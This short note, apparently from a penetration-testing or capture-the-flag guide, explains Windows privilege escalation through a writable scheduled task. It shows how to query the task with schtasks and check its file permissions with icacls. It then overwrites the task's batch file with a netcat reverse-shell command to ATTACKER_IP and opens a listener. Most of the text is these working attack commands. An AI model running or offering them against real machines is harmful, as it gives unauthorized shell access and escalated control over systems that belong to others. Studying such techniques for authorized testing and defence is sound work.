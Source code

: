 **Scheduled Tasks:**

To retrieve detailed information about any of the services, you can use a command like the following one:

```
schtasks /query /tn vulntask /fo list /v
```

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed. To check file permissions use:

```
icacls c:\tasks\schtask.bat
```

Spawn a Shell:

```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP port > C:\tasks\schtask.bat
```

Create a listener:

```
nc -nlvp port
```
